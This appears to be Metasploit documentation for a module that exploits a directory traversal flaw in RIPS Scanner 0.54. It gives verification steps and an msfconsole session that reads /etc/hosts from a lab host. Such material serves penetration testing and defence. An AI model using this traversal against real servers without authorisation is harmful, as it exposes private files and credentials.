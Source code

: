 ## Description

  This module exploits a directory traversal vulnerability in the RIPS Scanner v0.54,
  allowing to read arbitrary files with the web server privileges.


## Vulnerable Application

  [RIPS](http://rips-scanner.sourceforge.net/) is a static source code analyser
  for vulnerabilities in PHP scripts.

  * [RIPS v0.54 Source](https://sourceforge.net/projects/rips-scanner/files/rips-0.54.zip/download)


## Verification

  1. Start `msfconsole`
  2. `use auxiliary/scanner/http/rips_traversal`
  3. `set RHOSTS <rhost>`
  4. `set FILEPATH </path/to/file>`
  5. `run`


## Scenarios

  ```
  msf5 > use auxiliary/scanner/http/rips_traversal
  msf5 auxiliary(scanner/http/rips_traversal) > set rhosts 172.16.191.188
  rhosts => 172.16.191.188
  msf5 auxiliary(scanner/http/rips_traversal) > set filepath /etc/hosts
  filepath => /etc/hosts
  msf5 auxiliary(scanner/http/rips_traversal) > run
  
   127.0.0.1        localhost
    
    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    
    127.0.0.1 wpad
    
   
  [+] File saved in: /root/.msf4/loot/20190208082709_default_172.16.191.188_rips.traversal_654208.txt
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

